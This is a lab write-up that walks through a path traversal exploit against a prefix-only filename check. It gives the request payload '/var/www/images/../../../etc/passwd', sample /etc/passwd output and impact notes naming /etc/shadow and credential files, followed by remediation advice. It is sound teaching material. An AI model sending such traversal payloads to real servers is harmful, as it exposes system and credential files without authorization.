



# File Path Traversal - Validation of Start of Path


---

## Overview

This lab demonstrates a File Path Traversal vulnerability caused by improper validation of file paths.

The application transmits the entire file path through a request parameter and only checks whether the provided path starts with:

```text
/var/www/images/
```

---

## Objective

The objective of this lab was to bypass the application's path validation mechanism and retrieve the contents of:

```text
/etc/passwd
```

---

## Lab Description Analysis

The lab description stated:

> The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

That makes it clear that:

- The application expects a full filesystem path.
- Validation only checks the beginning of the path.
- Traversal sequences may still be accepted after the allowed directory.

---

## Methodology

### Step 1: Browse the Application

After opening the lab, and navigated to  product page, observed that product images were loaded as it should be in first place.

The application appeared normal and displayed images from the server.


---

### Step 2: Intercept the Image Request

Using Burp Suite, I intercepted the image request.

which was :

```http
GET /image?filename=/var/www/images/14.jpg
```

Which means, the application was exposing the complete filesystem path through the `filename` parameter.




---

### Step 3: Analyze Validation Logic

The path provided by the application was:

```text
/var/www/images/14.jpg
```

Based on the lab description, the application likely performed validation similar to:

```php
if (startsWith($filename, "/var/www/images/"))
{
    readfile($filename);
}
```

The important observation was that the validation only checked whether the path began with:

```text
/var/www/images/
```

and did not verify the final resolved path.

---

### Step 4: Construct Traversal Payload

To bypass the validation,
Final payload:

```text
/var/www/images/../../../etc/passwd
```

So, the actual request would be:

```http
GET /image?filename=/var/www/images/../../../etc/passwd
```

This payload still begins with:

```text
/var/www/images/
```

allowing it to pass the application's validation.

---

### Step 5: Send Request to Repeater

The modified request was sent to Burp Repeater and executed.

The server successfully processed the request and returned the contents of:

```text
/etc/passwd
```

The response included Linux system accounts such as:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
carlos:x:1202:1202:/home/carlos:/bin/bash
```

confirming successful directory traversal.




---

### Step 6: Complete the Lab

After confirming successful exploitation, I forwarded the request and refreshed the page.

The application immediately marked the lab as solved.




---

## Attack Flow

```text
User Requests Product Image
            ⇓
  GET /image?filename=/var/www/images/14.jpg
            ⇓
Observe Full File Path
            ⇓
Analyze Validation Logic
            ⇓
Validation Checks Only:
Starts With "/var/www/images/"
            ⇓
Append Traversal Sequences
       ../../../
            ⇓
Target File: etc/passwd
            ⇓
        Payload:
 /var/www/images/../../../etc/passwd
            ⇓
    Validation Passes
            ⇓
 Filesystem Resolves Path
            ⇓
    /etc/passwd Accessed
            ⇓
 Sensitive File Disclosed
            ⇓
       Lab Solved
```

---

## Root Cause

The vulnerability existed because:

- User-controlled filesystem paths were trusted.
- Validation only checked the beginning of the path.
- Canonicalization was not performed.
- Traversal sequences were not removed.

---

## Impact

### ◈ Arbitrary File Read

Attackers can access files outside the intended directory.

like :

```text
/etc/passwd
/etc/hosts
/etc/shadow
```

---

### ◈ Information Disclosure

Sensitive operating system information may be exposed, including:

- User accounts
- Installed services
- System configuration data

---

### ◈ Credential Exposure

Configuration files may contain:

- Database passwords
- API keys
- Cloud credentials
- Service account secrets

---

### ◈ Source Code Disclosure

Attackers may gain access to:

- Application source code
- Internal endpoints
- Hidden functionality

---

## Security Recommendations

### ▦ Validate Canonical Paths

Always resolve the path before validation.

whichis:

```php
$realPath = realpath($filename);
```

Verify that the resolved path remains inside the intended directory.

---

### ▦ Avoid Prefix-Based Validation

Checking only whether a path starts with:

```text
/var/www/images/
```

is insufficient.

Traversal sequences can bypass this control.

---

### ▦ Restrict File Access

Ensure requests can only access files within:

```text
/var/www/images/
```

and nowhere else.

---

### ▦ Use Allowlists

Only allow predefined image files.

Like :

```text
1.jpg
2.jpg
3.jpg
```

And completely reject any unexpected path input.

---

### ▦ Remove User-Controlled Paths

Applications should never allow users to directly specify filesystem locations.

Use internal file identifiers instead.

Like:

```http
/image?id=14
```

rather than:

```http
/image?filename=/var/www/images/14.jpg
```

---

### ▦ Apply Least Privilege

The web server should have minimal filesystem permissions.

Even if traversal occurs, access to sensitive files should be restricted.

---

## Conclusion

In this lab, a File Path Traversal vulnerability was successfully exploited by abusing the application's weak validation mechanism.

By :

```text
/var/www/images/../../../etc/passwd
```

it was possible to escape the intended directory and retrieve the contents of `/etc/passwd`.

This lab demonstrates why prefix-based validation is ineffective against path traversal attacks and highlights the importance of canonical path validation, allowlisting, and secure filesystem access controls.